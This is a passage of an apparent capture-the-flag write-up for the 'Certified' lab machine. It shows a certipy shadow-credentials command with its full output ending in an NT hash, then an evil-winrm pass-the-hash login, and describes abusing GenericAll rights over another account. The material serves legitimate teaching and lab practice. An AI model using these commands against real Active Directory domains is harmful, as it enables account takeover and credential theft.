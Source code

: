 Note that the key was provided to us whne we ran the gettgtpkinit.py script. 
#### Certipy method
The easier way to do this attack is with the following certipy command:
```
sudo ntpdate 10.10.11.41 ;certipy shadow auto -target certified.htb -username judith.mader@certified.htb -password judith09  -account management_svc -dc-ip 10.10.11.41
2025-05-30 04:03:31.17459 (+0200) +25200.328735 +/- 0.007778 10.10.11.41 s1 no-leap
CLOCK: time stepped by 25200.328735
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'b95cca55-796c-46eb-779e-761b9af45ca0'
[*] Adding Key Credential with device ID 'b95cca55-796c-46eb-779e-761b9af45ca0' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID 'b95cca55-796c-46eb-779e-761b9af45ca0' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
```

We can then winrn into the box with the following command:

```
evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
                                        
Evil-WinRM shell v3.5
                                                          
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Desktop> cat user.txt
52acbdfa614a2480edfa86b878aca1b4
```

## Using GenericAll to get ca_operator's NTLM hash
Since we have access to the box we could try privilege escalation methods but after a quick look it seemed unlikely that this is the intended path, everything looks like a default configuration and there are no extra directories or running processes that could hint towards an exploit. Going back over the bloodhound data we can see that the user we just compromised, managemetn_svc, has GenericAll over the ca_operator user. We can change the password of this user but I just opted for a shadow credential attack, using the same certipy command as before I am able to get the NTLM has of this user.

![certified](/assets/images/certified/mana.png)
